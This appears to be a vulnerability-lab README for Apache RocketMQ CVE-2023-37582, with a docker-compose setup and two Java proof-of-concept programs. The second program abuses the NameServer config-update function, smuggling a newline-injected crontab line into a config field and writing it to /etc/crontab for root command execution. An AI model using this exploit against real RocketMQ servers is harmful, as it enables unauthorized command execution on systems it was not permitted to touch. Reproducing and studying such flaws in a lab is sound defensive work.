 # Apache RocketMQ Remote Command Execution Vulnerability (CVE-2023-37582)

The RocketMQ NameServer component still has a remote command execution vulnerability as the CVE-2023-33246 issue was not completely fixed in version 5.1.1.

When NameServer address are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function on the NameServer component to execute commands as the system users that RocketMQ is running as.

## Affected Version

- Apache RocketMQ 5.x <= 5.1.1
- Apache RocketMQ <= 4.9.6

## Usage

Run following command to startup the apache rocketmq, the NameServer and Broker was listing on `9876` and `10911`.

```bash
docker-compose up
```

### Poc of CVE-2023-37582

The poc below will write the configuration file of NameServer to `/tmp/rocketmq`,

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        // props.setProperty("productEnvName", "anything\\n1 * * * * {user} touch /tmp/crontab_success");
        props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/tmp/rocketmq");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

After running, you will see the file `/tmp/rocketmq` with content

```
bindAddress=0.0.0.0
clientRequestThreadPoolNums=8
clientRequestThreadPoolQueueCapacity=50000
clusterTest=false
configStorePath=/tmp/rocketmq
defaultThreadPoolNums=16
defaultThreadPoolQueueCapacity=10000
enableAllTopicList=true
enableControllerInNamesrv=false
enableTopicList=true
kvConfigPath=/root/namesrv/kvConfig.json
listenPort=9876
needWaitForService=false
notifyMinBrokerIdChanged=false
orderMessageEnable=false
productEnvName=anything
returnOrderTopicConfigToBroker=true
rocketmqHome=/opt/rocketmq-all-5.1.0
scanNotActiveBrokerInterval=5000
serverAsyncSemaphoreValue=64
serverCallbackExecutorThreads=0
serverChannelMaxIdleTimeSeconds=120
serverOnewaySemaphoreValue=256
serverPooledByteBufAllocatorEnable=true
serverSelectorThreads=3
serverSocketBacklog=1024
serverSocketRcvBufSize=0
serverSocketSndBufSize=0
serverWorkerThreads=8
supportActingMaster=false
unRegisterBrokerQueueCapacity=3000
useEpollNativeSelector=false
waitSecondsForService=45
writeBufferHighWaterMark=0
writeBufferLowWaterMark=0
```

Since the `org.apache.rocketmq.broker.filtersrv.FilterServerManager` was removed from `5.1.1`, you can try to exploit it with writing the content to a crontab file for command execution.

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        props.setProperty("productEnvName", "anything\\n* * * * * root touch /tmp/crontab_success");
        // props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/etc/crontab");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

![](images/Screen-2023-07-18-164213.mp4)


## Reference

1. https://lists.apache.org/thread/m614czxtpvlztd7mfgcs2xcsg36rdbnc
